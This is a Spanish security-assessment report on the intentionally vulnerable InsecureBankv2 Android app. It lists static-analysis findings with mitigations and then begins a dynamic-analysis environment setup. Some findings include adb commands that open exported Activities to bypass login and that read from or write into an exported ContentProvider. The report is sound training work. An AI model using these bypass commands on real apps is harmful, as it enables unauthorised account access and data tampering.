En [FilePrefActivity.java.jadx](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/decompiled/jadx/insecurebankv2/FilePrefActivity.java.jadx), encontramos:

### **Hallazgo F-22 — Configuración manual del servidor sin protección**
`FilePrefActivity` permite configurar IP y puerto del servidor:
```
edit_serverip      // FilePrefActivity.java.jadx:4, 52-55
edit_serverport    // líneas 5, 56-59
```

Guarda los valores en DefaultSharedPreferences:
```
PreferenceManager.getDefaultSharedPreferences(...)   // línea 60
"serverip"                                           // línea 134
"serverport"                                         // línea 137
commit()                                             // línea 140
```

**Impacto:** El endpoint de backend queda bajo control de la configuración local. Si un atacante con acceso al dispositivo, a la UI, a datos de la app o a una Activity exportada puede modificar estos valores, puede redirigir la app a un servidor controlado. Dado que la app envía credenciales por HTTP, esto facilita captura de usuario/contraseña.

**Severidad:** Alta en combinación con HTTP.


**Mitigación:** No permitir configuración libre del backend en builds productivos. Fijar endpoints seguros, usar HTTPS y certificate pinning si corresponde.


### **Hallazgo F-23 — Validación insuficiente del endpoint**
La IP se valida solo con regex IPv4:
```
"^([01]?\\d\\d?|2[0-4]\\d|25[0-5])\\...."   // FilePrefActivity.java.jadx:117
```

El puerto se valida con regex de rango:
```
"(6553[0-5]|655[0-2]\\d|65[0-4]\\d{2}|...)"   // línea 125
```

**Impacto:** La validación sólo comprueba formato, no seguridad del destino. Acepta IPs privadas, loopback y cualquier host controlado por el usuario. No hay restricción de dominio, TLS ni pinning.

**Severidad:** Media.

**Mitigación:** Separar configuración de laboratorio de builds productivos. Validar dominios permitidos, usar HTTPS y bloquear cleartext traffic.


### **Hallazgo F-24 — Activity de configuración potencialmente abusiva si está exportada**
FilePrefActivity permite guardar configuración crítica sin autenticación adicional:
```
setPreferences()   // FilePrefActivity.java.jadx:108
```

**Impacto:** Si esta Activity está exportada en el `AndroidManifest.xml`, otra app podría abrirla o inducir al usuario a cambiar el backend. Aunque el fichero por sí solo no confirma exported, el riesgo debe cruzarse con el manifest.

**Severidad:** Media-Alta si está exportada. Pero hemos conprobado que en Manifest la Activity no está exportada explícitamente y no tiene intent-filter, por lo que no se confirma exposición directa por IPC.

**Mitigación:** Marcar la Activity como no exportada y no permitir que una pantalla no autenticada modifique parámetros críticos de seguridad.


----

## **4.8 LoginActivity.java.jadx**
En [LoginActivity.java.jadx](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/decompiled/jadx/insecurebankv2/LoginActivity.java.jadx) encontramos:

### **Hallazgo F-25 — Función de autocompletado recupera credenciales en claro**
`fillData()` lee de `mySharedPreferences`:
```
"mySharedPreferences"       // LoginActivity.java.jadx:119
"EncryptedUsername"         // línea 121
"superSecurePassword"       // línea 123
```

Decodifica el usuario:
```
android.util.Base64.decode(...)   // línea 129
```

Descifra la contraseña:
```
new com.android.insecurebankv2.CryptoClass;   // línea 146
aesDeccryptedString(...)                      // línea 148
```

Y rellena los campos de login:
```
Username_Text.setText(...)   // líneas 143-145
Password_Text.setText(...)   // líneas 148-150
```

**Impacto:** Cualquier persona con acceso a la app desbloqueada puede pulsar el botón de autocompletar y revelar credenciales en pantalla. Esto confirma que la contraseña se almacena de forma reversible.

**Severidad:** Alta

**Mitigación:** Eliminar autocompletado de contraseña. No almacenar contraseñas; usar tokens de sesión y reautenticación.


### **Hallazgo F-26 — Credenciales transmitidas entre Activities mediante extras**
`performlogin()` crea un Intent hacia DoLogin:
```
new Intent(... DoLogin.class)   // LoginActivity.java.jadx:262-264
```

Añade usuario y contraseña como extras:
```
"passed_username"   // línea 265
"passed_password"   // línea 270
putExtra(...)       // líneas 269 y 274
```

**Impacto:** Aunque es un Intent explícito interno, las credenciales viajan por el ciclo de vida de Android como extras. Si DoLogin está exportada, otra app podría invocarla con credenciales arbitrarias. Además, pasar contraseñas entre componentes refuerza el diseño inseguro: la autenticación se gestiona como flujo de UI, no como sesión segura.

**Severidad:** Media.

**Mitigación:** Evitar pasar contraseñas entre Activities. Centralizar autenticación en un repositorio seguro y manejar sesiones/token.


### **Hallazgo F-27 — Flujo de login dependiente del cliente**
`LoginActivity` sólo recoge campos y lanza DoLogin:
```
performlogin()   // LoginActivity.java.jadx:252
startActivity(r0) // línea 275
```

**Impacto:** El diseño separa la captura de credenciales y la lógica de autenticación en Activities exportables o invocables. Esto facilita pruebas como:
```
adb shell am start -n com.android.insecurebankv2/.DoLogin \
  --es passed_username dinesh \
  --es passed_password 'Dinesh@123$'
```

**Severidad:** Media, pero alta en combinación con Activities exportadas.

**Mitigación:** No exportar Activities internas y validar sesión/autorización en cada componente sensible.

----

## **4.9 MyBroadCastReceiver.java.jadx**
En [MyBroadCastReceiver.java.jadx](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/decompiled/jadx/insecurebankv2/MyBroadCastReceiver.java.jadx) encontramos:

#### **Hallazgo F-28 — Receiver acepta datos sensibles desde Intent extras**
El receiver lee directamente:
```
"phonenumber"   // MyBroadCastReceiver.java.jadx:15-17
"newpass"       // líneas 18-20
```
donde:
- No se observa validación de origen, permiso, paquete emisor ni action esperada.

**Impacto:** Si el receiver está exportado, otra app puede enviar un broadcast con número de teléfono y nueva contraseña. Esto permite abusar del flujo de notificación/cambio de contraseña.

**Severidad:** Alta si el receiver está exportado.

**Mitigación:** Marcar el receiver como android:exported="false" o protegerlo con permisos signature. Validar action, origen y contenido.


### **Hallazgo F-29 — Uso de MODE_WORLD_READABLE en SharedPreferences**
El receiver abre `SharedPreferences` con modo 1:
```
getSharedPreferences("mySharedPreferences", 1)   // MyBroadCastReceiver.java.jadx:23-26
```

Históricamente, 1 corresponde a `MODE_WORLD_READABLE`, un modo inseguro y obsoleto.

**Impacto:** En versiones antiguas de Android, esto podía permitir que otras apps leyeran preferencias. En versiones modernas puede fallar o ser ignorado, pero sigue siendo un patrón inseguro claro.

**Severidad:** Alta en un Android antiguo.

**Mitigación:** Usar `MODE_PRIVATE` y no almacenar secretos en `SharedPreferences`.


### **Hallazgo F-30 — Descifrado de contraseña almacenada dentro del receiver**
El receiver lee y descifra la contraseña guardada:
```
"superSecurePassword"               // MyBroadCastReceiver.java.jadx:37
new com.android.insecurebankv2.CryptoClass   // línea 40
aesDeccryptedString(...)            // línea 42
```

También decodifica el usuario:
```
"EncryptedUsername"                 // línea 27
android.util.Base64.decode(...)     // línea 31
```

**Impacto:** El componente tiene acceso directo a las credenciales persistidas. Si el receiver es invocable por terceros, puede convertirse en un canal indirecto para extraer o exfiltrar la contraseña.

**Severidad:** Alta.

**Mitigación:** No descifrar ni manejar contraseñas en BroadcastReceivers. Eliminar almacenamiento reversible de contraseñas.


### **Hallazgo F-31 — Envío de contraseña antigua y nueva por SMS**
El SMS se construye así:
```
"Updated Password from: "   // MyBroadCastReceiver.java.jadx:46
append(r8)                 // contraseña antigua, línea 48
" to: "                    // línea 49
append(r10)                // nueva contraseña, línea 51
```

Luego se envía con:
```
SmsManager.getDefault()     // línea 53
sendTextMessage(...)        // línea 68
```

**Impacto:** La app envía por SMS la contraseña antigua y la nueva. Esto expone credenciales a la red móvil, al historial de SMS, a logs, a apps SMS y al destinatario configurado. Si un atacante controla el extra phonenumber, puede hacer que la app envíe credenciales a un número elegido.

**Severidad:** Crítica.

**Mitigación:** Nunca enviar contraseñas por SMS. Usar notificaciones genéricas sin secretos. Para recuperación/cambio de contraseña, usar tokens de un solo uso y expiración corta.


### **Hallazgo F-32 — Logging de contraseñas y número de teléfono**
El receiver imprime:
```
"For the changepassword - phonenumber: "   // línea 57
" password is: "                           // línea 60
System.out.println(...)                    // líneas 54-64
```
donde:
- El mensaje contiene número de teléfono, contraseña antigua y nueva.

**Impacto:** Las credenciales quedan expuestas en logs. Esto es especialmente grave en builds debug, dispositivos rooteados o entornos de análisis.

**Severidad:** Alta.

**Mitigación:** Eliminar todos los logs que contengan credenciales, PII, números de teléfono o tokens.


### **Hallazgo F-33 — Manejo inseguro de errores**
El receiver captura Exception genérico e imprime el stacktrace:
```
catch Exception
printStackTrace()   // MyBroadCastReceiver.java.jadx:71-73
```

**Impacto:** Los errores pueden revelar detalles internos de ejecución, rutas, clases o fallos de descifrado. Además, el flujo no diferencia errores esperados de situaciones de abuso.

**Severidad:** Baja-Media.

**Mitigación:** Manejo explícito de errores, sin exponer detalles sensibles en logs.


----


## **4.10 MyWebViewClient.java.jadx**
En [MyWebViewClient.java.jadx](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/decompiled/jadx/insecurebankv2/MyWebViewClient.java.jadx) encontramos:

### **Hallazgo F-34 — WebViewClient permite cargar cualquier URL recibida**
En `MyWebViewClient.java.jadx:10-14`, el cliente WebView recibe una URL y la carga directamente con `loadUrl(r3)`:
```
public boolean shouldOverrideUrlLoading(android.webkit.WebView r2, java.lang.String r3) {
    r2.loadUrl(r3);
    return true;
}
```

**Impacto:** No hay validación de esquema, dominio, ruta ni origen de la URL. Si el contenido mostrado en el WebView contiene enlaces controlables, o si otro componente puede influir en la URL cargada, la app podría abrir contenido arbitrario dentro del WebView.

**Severidad:** Media.

**Mitigación:** Validar explícitamente URLs permitidas:
```
https://dominio-esperado/...
file:///solo-si-es-necesario-y-controlado
```
y bloquear esquemas peligrosos o innecesarios como:
```
javascript:
intent:
content:
file:
```


## **4.11 PostLogin.java.jadx**
En [PostLogin.java.jadx](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/decompiled/jadx/insecurebankv2/PostLogin.java.jadx) encontramos:

### **Hallazgo F-35 — Panel post-login accesible solo por extra uname, sin validación de sesión**
PostLogin obtiene el usuario directamente desde el extra uname:
```
r0 = r3.getIntent();
r1 = "uname";
r1 = r0.getStringExtra(r1);
r3.uname = r1;
```


No se observa validación de sesión, token, cookie, estado autenticado ni consulta al backend antes de habilitar las funcionalidades.

**Impacto:** Como PostLogin está exportada en el Manifest, se puede abrir directamente con:
```
adb -s 127.0.0.1:6555 shell am start \
  -n com.android.insecurebankv2/.PostLogin \
  --es uname dinesh
```

Esto confirma el bypass principal del reto: el panel interno depende de un parámetro de Intent y no de una sesión autenticada robusta.

**Severidad:** Alta.

**Mitigación:** No exportar PostLogin:
```
android:exported="false"
```
y validar sesión/autorización en cada pantalla sensible.


### **Hallazgo F-36 — Navegación directa a funcionalidades sensibles desde PostLogin**
En en `PostLogin.java.jadx:20-28` el botón de transferencia abre DoTransfer:
```
r2 = com.android.insecurebankv2.DoTransfer.class;
r0.<init>(r1, r2);
r1.startActivity(r0);
```


En `PostLogin.java.jadx:43-46` el botón de extractos llama a `viewStatment()`:
```
r0.viewStatment();
```

En `PostLogin.java.jadx:61-64` el botón de cambio de contraseña llama a `changePasswd()`:
```
r0.changePasswd();
```


**Impacto:** Una vez abierta PostLogin, el usuario puede navegar a transferencia, extractos y cambio de contraseña. Si PostLogin es invocable externamente, se convierte en una puerta de entrada a funcionalidades internas.


**Severidad:** Alta.

**Mitigación:** Cada Activity sensible debe comprobar autorización propia, no confiar en que el usuario llegó desde el flujo legítimo de login.


### **Hallazgo F-37 — Paso de identidad por Intent extras**
En `PostLogin.java.jadx:159-161` para el cambio de contraseña:
```
r1 = "uname";
r2 = r3.uname;
r0.putExtra(r1, r2);
```


En `PostLogin.java.jadx:278-280` para ver extractos:
```
r1 = "uname";
r2 = r3.uname;
r0.putExtra(r1, r2);
```

**Impacto:** La identidad de usuario se propaga mediante extras de Intent. Si las Activities receptoras están exportadas o no validan sesión, se puede suplantar el contexto de usuario simplemente inyectando uname.

**Severidad:** Alta en combinación con Activities exportadas

**Mitigación:** No usar extras de Intent como prueba de identidad. Usar sesión autenticada interna, tokens vinculados al backend y controles server-side.


### **Hallazgo F-38 — FilePrefActivity accesible desde el menú post-login**
En `PostLogin.java.jadx:144-149`, `callPreferences()` abre la pantalla de preferencias:
```
r1 = com.android.insecurebankv2.FilePrefActivity.class;
r0.<init>(r2, r1);
r2.startActivity(r0);
```


En `PostLogin.java.jadx:216-223` el menú llama a `callPreferences()` cuando se selecciona action_settings:
```
if (r1 != 2131558557) ...
r5.callPreferences();
```


**Impacto:** Desde el panel post-login se puede modificar IP y puerto del backend. En combinación con HTTP en claro y credenciales reutilizadas, esto permite redirigir la app a un servidor controlado para capturar credenciales.

**Severidad:** Alta en combinación con HTTP.

**Mitigación:** Eliminar configuración manual de backend en builds productivos, protegerla con controles internos o limitarla a entornos debug.


## **4.12 TrackUserContentProvider.java.jadx**
En [TrackUserContentProvider.java.jadx](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/decompiled/jadx/insecurebankv2/TrackUserContentProvider.java.jadx) encontramos:

### **Hallazgo F-39 — ContentProvider permite consultar, insertar, actualizar y borrar registros**
En `TrackUserContentProvider.java.jadx:10 y 43-59` el provider define una URI pública:
```
content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
```

En `TrackUserContentProvider.java.jadx:5-11` gestiona una base SQLite local:
```
DATABASE_NAME = "mydb"
TABLE_NAME = "names"
CREATE TABLE names (...)
```

Expone operaciones completas:
```
insert(...)
query(...)
update(...)
delete(...)
```
donde lo podemos ver en:
- delete: líneas 69-96.
- insert: líneas 122-148.
- query: líneas 169-212.çupdate: líneas 215-242

**Impacto:** Hemos comprobado que el provider está declarado como `android:exported="true"` en el Manifest. Esto implica que otra app podría interactuar con esta base de datos local mediante la URI del provider.

Ejemplo de lectura:
```
adb shell content query \
  --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
```

Ejemplo de inserción:
```
adb shell content insert \
  --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers \
  --bind name:s:attacker
```

**Severidad: Alta.**

**Riesgo:** Permite manipulación del registro local de usuarios autenticados o rastreados por la app.

**Mitigación:** Marcar el provider como no exportado:
```
android:exported="false"
```
o protegerlo con:
```
android:readPermission
android:writePermission
```
y validar el caller antes de ejecutar operaciones.


### **Hallazgo F-40 — Falta de control de autorización en operaciones del provider**

No se observa validación de:
```
calling package
UID
permiso de lectura
permiso de escritura
estado de autenticación
```

Las operaciones ejecutan directamente sobre SQLite:
```
db.insert(...)
db.query(...)
db.update(...)
db.delete(...)
```

**Severidad: Alta.**

**Impacto:** El provider confía en que quien llama está autorizado. Si el componente está exportado, la autorización efectiva queda ausente.

**Mitigación:** Antes de operar sobre la base de datos:
```
validar identidad del caller
restringir permisos
separar APIs internas y externas
evitar exportar datos internos
```


## **4.13 ViewStatement.java.jadx**
En [ViewStatement.java.jadx](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/decompiled/jadx/insecurebankv2/ViewStatement.java.jadx) encontramos:

### **Hallazgo F-41 — Carga de extractos desde almacenamiento externo en WebView**
La Activity toma el usuario desde un extra:
```
uname = getIntent().getStringExtra("uname");
```


Construye un fichero local:
```
Statements_<uname>.html
```

Lo busca en almacenamiento externo:
```
Environment.getExternalStorageDirectory()
```

Y si existe, lo carga en un WebView:
```
file://<external_storage>/Statements_<uname>.html
webView.loadUrl(...)
```


**Severidad:** Alta.

**Impacto:** Los extractos se leen desde almacenamiento externo, una ubicación menos segura que el almacenamiento interno privado. Si otra app o usuario modifica el HTML, la app lo renderiza dentro del WebView. Este riesgo es especialmente relevante porque DoTransfer escribía esos extractos en almacenamiento externo. La cadena queda así:
```
DoTransfer escribe Statements_<usuario>.html en /sdcard
ViewStatement carga ese HTML local en WebView
WebView tiene JavaScript activado
```

**Mitigación:** Guardar los extractos en almacenamiento interno privado, no en /sdcard. Evitar WebView para mostrar datos financieros simples; usar vistas nativas. Si se usa WebView, cargar solo contenido propio, escapado y no modificable por terceros.

### **Hallazgo F-42 — JavaScript habilitado en WebView para contenido local**
Después de cargar el fichero local, se habilita JavaScript:
```
webView.getSettings().setJavaScriptEnabled(true);
```


También se habilitan opciones adicionales:
```
setSaveFormData(true)
setBuiltInZoomControls(true)
```


**Severidad:** Alta en combinación con HTML externo/modificable.

**Impacto:** Habilitar JavaScript para contenido HTML local aumenta el impacto si el fichero `Statements_<uname>.html` puede ser modificado. Un atacante que consiga escribir o alterar ese HTML podría ejecutar JavaScript dentro del contexto del WebView.

Aunque no se observa `addJavascriptInterface()` en este fichero, la combinación de:
```
file://
almacenamiento externo
JavaScript habilitado
navegación no estrictamente validada por MyWebViewClient
```
es una superficie destacable.

**Mitigación:** Desactivar JavaScript si no es imprescindible:
```
webView.getSettings().setJavaScriptEnabled(false);
```
Además:
```
no cargar contenido desde almacenamiento externo
validar rutas
bloquear navegación externa
usar almacenamiento interno privado
```

### **Hallazgo F-43 — Logging de ruta local del extracto**
La ruta del fichero se imprime por consola:
```
System.out.println(file.toString());
```


**Severidad:** Media, interesante para destacar.

**Impacto:** Revela rutas locales y nombres de ficheros asociados a usuarios. No es crítico por sí solo, pero en una app financiera es mala práctica y ayuda a un atacante a localizar artefactos sensibles.

**Mitigación:** Eliminar logs de rutas, usuarios, extractos y datos financieros.


# **5. Resumen de hallazgos del Análisis Estático**


## **5.1 Resumen de hallazgos del Manifest**
| ID   | Hallazgo                             | Evidencia                                               | Severidad  |
| ---- | ------------------------------------ | ------------------------------------------------------- | ---------- |
| M-01 | App debuggable                       | `android:debuggable="true"`                             | Media-Alta |
| M-02 | Backup habilitado                    | `android:allowBackup="true"`                            | Alta       |
| M-03 | Permisos sensibles/excesivos         | SMS, storage, contacts, call log, phone state, location | Alta       |
| M-04 | `PostLogin` exportada                | `android:exported="true"`                               | Alta       |
| M-05 | `DoTransfer` exportada               | `android:exported="true"`                               | Alta       |
| M-06 | `ViewStatement` exportada            | `android:exported="true"`                               | Alta       |
| M-07 | `ChangePassword` exportada           | `android:exported="true"`                               | Alta       |
| M-08 | `TrackUserContentProvider` exportado | `android:exported="true"` sin permisos                  | Alta       |
| M-09 | `MyBroadCastReceiver` exportado      | `android:exported="true"` con action `theBroadcast`     | Crítica    |


-----


## **5.2 Resumen de hallazgos en los ficheros decompilados**

| ID   | Archivo                    | Hallazgo                                                |          Exportado en Manifest | Severidad ajustada        |
| ---- | -------------------------- | ------------------------------------------------------- | -----------------------------: | ------------------------- |
| F-01 | `BuildConfig`              | Build debug / bajo hardening                            |                      No aplica | Media                     |
| F-02 | `CryptoClass`              | Clave AES hardcodeada                                   |                      No aplica | Alta                      |
| F-03 | `CryptoClass`              | IV AES-CBC estático                                     |                      No aplica | Alta                      |
| F-04 | `CryptoClass`              | AES-CBC sin integridad                                  |                      No aplica | Alta                      |
| F-05 | `DoLogin`                  | Login por HTTP en claro                                 |     No — Activity no exportada | Alta                      |
| F-06 | `DoLogin`                  | Backdoor lógico `devadmin` → `/devlogin`                |     No — Activity no exportada | Crítica                   |
| F-07 | `DoLogin`                  | Credenciales en `SharedPreferences`                     |                      No aplica | Alta                      |
| F-08 | `DoLogin`                  | Logs con usuario y contraseña                           |                      No aplica | Alta                      |
| F-09 | `DoLogin`                  | Inserción de usuario en `ContentProvider` exportado     |     Provider destino exportado | Media-Alta                |
| F-10 | `DoLogin`                  | Flujo frágil por `finish()` antes de navegación         |                      No aplica | Baja-Media                |
| F-11 | `ChangePassword`           | Cambio de contraseña por HTTP                           |        Sí — Activity exportada | Alta                      |
| F-12 | `ChangePassword`           | Cambio basado solo en usuario y nueva contraseña        |        Sí — Activity exportada | Alta                      |
| F-13 | `ChangePassword`           | Validación de password solo en cliente                  |        Sí — Activity exportada | Media-Alta                |
| F-14 | `ChangePassword`           | Broadcast implícito con nueva contraseña                |        Sí — Activity exportada | Alta                      |
| F-15 | `ChangePassword`           | Lectura/logging de número telefónico                    |        Sí — Activity exportada | Media                     |
| F-16 | `DoTransfer`               | Transferencias y consulta de cuentas por HTTP           |        Sí — Activity exportada | Alta                      |
| F-17 | `DoTransfer`               | Reutilización de contraseña almacenada para operar      |        Sí — Activity exportada | Alta                      |
| F-18 | `DoTransfer`               | Parámetros de transferencia controlados desde UI        |        Sí — Activity exportada | Alta si backend no valida |
| F-19 | `DoTransfer`               | Extractos en almacenamiento externo                     |        Sí — Activity exportada | Alta                      |
| F-20 | `DoTransfer`               | Logs con datos financieros                              |        Sí — Activity exportada | Media-Alta                |
| F-21 | `DoTransfer`               | Éxito/fallo basado en substring                         |        Sí — Activity exportada | Media                     |
| F-22 | `FilePrefActivity`         | Configuración libre del backend                         |     No — Activity no exportada | Alta combinada con HTTP   |
| F-23 | `FilePrefActivity`         | Validación insuficiente del endpoint                    |     No — Activity no exportada | Media                     |
| F-24 | `FilePrefActivity`         | Permite modificar IP/puerto del backend de la app       |     No — Activity no exportada | Media interesante         |
| F-25 | `LoginActivity`            | Autocompletado revela credenciales almacenadas          |         Sí — launcher Activity | Alta                      |
| F-26 | `LoginActivity`            | Credenciales en extras de Intent                        |         Sí — launcher Activity | Media                     |
| F-27 | `LoginActivity`            | Flujo de login dependiente del cliente                  |         Sí — launcher Activity | Media-Alta combinada      |
| F-28 | `MyBroadCastReceiver`      | Receiver acepta extras sensibles                        |        Sí — Receiver exportado | Alta                      |
| F-29 | `MyBroadCastReceiver`      | Uso de modo `1` / `MODE_WORLD_READABLE`                 |        Sí — Receiver exportado | Media-Alta                |
| F-30 | `MyBroadCastReceiver`      | Descifra contraseña dentro del receiver                 |        Sí — Receiver exportado | Alta                      |
| F-31 | `MyBroadCastReceiver`      | Envía contraseña antigua y nueva por SMS                |        Sí — Receiver exportado | Crítica                   |
| F-32 | `MyBroadCastReceiver`      | Logs con contraseña y teléfono                          |        Sí — Receiver exportado | Alta                      |
| F-33 | `MyBroadCastReceiver`      | `printStackTrace()` y manejo genérico de errores        |        Sí — Receiver exportado | Baja-Media                |
| F-34 | `MyWebViewClient`          | `loadUrl()` sin validación de URL                       |                      No aplica | Media                     |
| F-35 | `PostLogin`                | Panel post-login depende de extra `uname`, sin sesión   |        Sí — Activity exportada | Alta                      |
| F-36 | `PostLogin`                | Navegación directa a funciones sensibles                |        Sí — Activity exportada | Alta                      |
| F-37 | `PostLogin`                | Identidad propagada por extras de Intent                |        Sí — Activity exportada | Alta combinada            |
| F-38 | `PostLogin`                | Acceso a configuración de backend desde menú            |        Sí — Activity exportada | Alta combinada            |
| F-39 | `TrackUserContentProvider` | Provider permite CRUD sobre SQLite local                | Sí — `android:exported="true"` | Alta                      |
| F-40 | `TrackUserContentProvider` | Sin control de autorización en operaciones del provider | Sí — `android:exported="true"` | Alta                      |
| F-41 | `ViewStatement`            | Carga extractos desde almacenamiento externo en WebView |        Sí — Activity exportada | Alta                      |
| F-42 | `ViewStatement`            | JavaScript habilitado para contenido local              |        Sí — Activity exportada | Alta                      |
| F-43 | `ViewStatement`            | Log de ruta local del extracto                          |        Sí — Activity exportada | Media                     |


# **6. Análisis dinámico**

## **6.1 Preparación del entorno y obtención del APK**
**Clonamos el repositorio:**
```
git clone https://github.com/dineshshetty/Android-InsecureBankv2.git
cd Android-InsecureBankv2
cd AndroLabServer
python2 -m pip install -r requirements.txt
```

**Obtenemos un error:**  

donde:
- El problema es normal en Kali moderno que usamos actualmente. Tenemos python2, pero no `pip` para Python 2. El backend de `InsecureBankv2` es antiguo y su README pide instalar `flask`, `sqlalchemy`, `simplejsonp`, `web.py` y `cherrypy`, ya sea con `easy_install` o con `pip install -r requirements.txt`.


**Verificamos version de `pip`:**
```
└─$ python2 -m pip --version
pip 20.3.4 from /home/xxniwexx/.local/lib/python2.7/site-packages/pip (python 2.7)
                                                                                                                                                      

└─$ python2 - << 'EOF'
heredoc> import setuptools
print(setuptools.__version__)
EOF
44.1.1
```

**Instalamos `virtualenv` legacy:**
```
└─$ python2 -m pip install --user 'virtualenv==16.7.12'
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
Collecting virtualenv==16.7.12
  Downloading virtualenv-16.7.12-py2.py3-none-any.whl (7.2 MB)
     |████████████████████████████████| 7.2 MB 2.6 MB/s 
Installing collected packages: virtualenv
Successfully installed virtualenv-16.7.12
```

**Añadimos el path de binarios de usuario:**
```
└─$ export PATH="$HOME/.local/bin:$PATH"
```

**Comprobamos:**
```
└─$ virtualenv --version
16.7.12
```

**Creamos el entorno virtual con Python 2 y lo activamos:**
```
└─$ virtualenv -p /usr/bin/python2 venv-py2
Already using interpreter /usr/bin/python2
New python executable in /home/xxniwexx/Descargas/Android-InsecureBankv2/AndroLabServer/venv-py2/bin/python2
Also creating executable in /home/xxniwexx/Descargas/Android-InsecureBankv2/AndroLabServer/venv-py2/bin/python
Installing setuptools<=44.1.1, pip<=20.3.4, wheel...
done.
                                                                                                                                                      

└─$ source venv-py2/bin/activate
         
```

**Verificamos que estamos dentro del entorno:**
```
└─$ which python
/home/xxniwexx/Descargas/Android-InsecureBankv2/AndroLabServer/venv-py2/bin/python
                                                                                                                                                      

└─$ python --version
Python 2.7.18
                                                                                                                                                      

└─$ which pip
/home/xxniwexx/Descargas/Android-InsecureBankv2/AndroLabServer/venv-py2/bin/pip
                                                                                                                                                      

└─$ pip --version
pip 20.3.4 from /home/xxniwexx/Descargas/Android-InsecureBankv2/AndroLabServer/venv-py2/local/lib/python2.7/site-packages/pip (python 2.7)
       
```

**Actualizamos las herramientas dentro del venv:**
```
└─$ pip install --upgrade 'pip==20.3.4' 'setuptools==44.1.1' 'wheel==0.37.1'
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
Requirement already up-to-date: pip==20.3.4 in ./venv-py2/lib/python2.7/site-packages (20.3.4)
Requirement already up-to-date: setuptools==44.1.1 in ./venv-py2/lib/python2.7/site-packages (44.1.1)
Requirement already up-to-date: wheel==0.37.1 in ./venv-py2/lib/python2.7/site-packages (0.37.1)
```

**Instalamos dependencias del servidor:**
```
└─$ pip install \
  'Werkzeug==1.0.1' \
  'Jinja2==2.11.3' \
  'MarkupSafe==1.1.1' \
  'itsdangerous==1.1.0' \
  'click==7.1.2' \
  'Flask==0.12.5' \
  'SQLAlchemy==1.3.24' \
  'simplejson==3.17.6' \
  'CherryPy==3.2.6' \
  'web.py==0.39'
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
Collecting Werkzeug==1.0.1
  Downloading Werkzeug-1.0.1-py2.py3-none-any.whl (298 kB)
     |████████████████████████████████| 298 kB 2.7 MB/s 
Collecting Jinja2==2.11.3
....
....
```

**Verificamos los imports:**
```
└─$ python - << 'EOF'
import flask
import werkzeug
import sqlalchemy
import simplejson
import cherrypy
import web

print("Flask:", flask.__version__)
print("Werkzeug:", werkzeug.__version__)
print("SQLAlchemy:", sqlalchemy.__version__)
print("OK dependencias cargadas")
EOF
('Flask:', '0.12.5')
('Werkzeug:', '1.0.1')
('SQLAlchemy:', '1.3.24')
OK dependencias cargadas
```


**Corregimos Werkzeug dentro del mismo entorno:** Tenemos `Werkzeug: 1.0.1` y para `Flask 0.12.5`, parece que debemos dejarlo en `Werkzeug==0.16.1`.
``` 
└─$ python -m pip uninstall -y Werkzeug
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
Found existing installation: Werkzeug 1.0.1
Uninstalling Werkzeug-1.0.1:
  Successfully uninstalled Werkzeug-1.0.1
                                                                                                                                                      

└─$ python -m pip install 'Werkzeug==0.16.1'
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
Collecting Werkzeug==0.16.1
  Downloading Werkzeug-0.16.1-py2.py3-none-any.whl (327 kB)
     |████████████████████████████████| 327 kB 2.9 MB/s 
Installing collected packages: Werkzeug
Successfully installed Werkzeug-0.16.1
```


**Arrancamos el servidor:**
```
┌──(venv-py2)─(xxniwexx㉿xxniwexx)-[~/Descargas/Android-InsecureBankv2/AndroLabServer]
└─$ python app.py
Traceback (most recent call last):
  File "app.py", line 6, in <module>
    from cheroot import wsgi # This replaces the 2 above
ImportError: No module named cheroot
```
donde:
